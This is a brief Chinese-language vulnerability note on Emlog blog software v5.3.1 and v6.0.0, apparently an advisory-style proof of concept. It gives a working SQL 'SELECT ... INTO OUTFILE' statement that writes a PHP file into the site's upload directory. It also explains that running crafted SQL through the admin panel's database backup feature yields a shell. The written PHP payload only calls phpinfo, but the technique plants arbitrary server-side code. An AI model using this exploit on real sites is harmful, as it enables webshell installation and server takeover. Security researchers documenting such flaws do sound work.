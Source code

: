 影響版本
--------

    Emlog v5.3.1
    Emlog v6.0.0

POC
---

    select "<?php phpinfo();?>" into outfile "/var/www/html/tet1/emlog_6.0.0/src/content/uploadfile/202104/222.php";

通過在後台數據-備份數據庫進行構造惡意sql語句進行備份上傳-getshell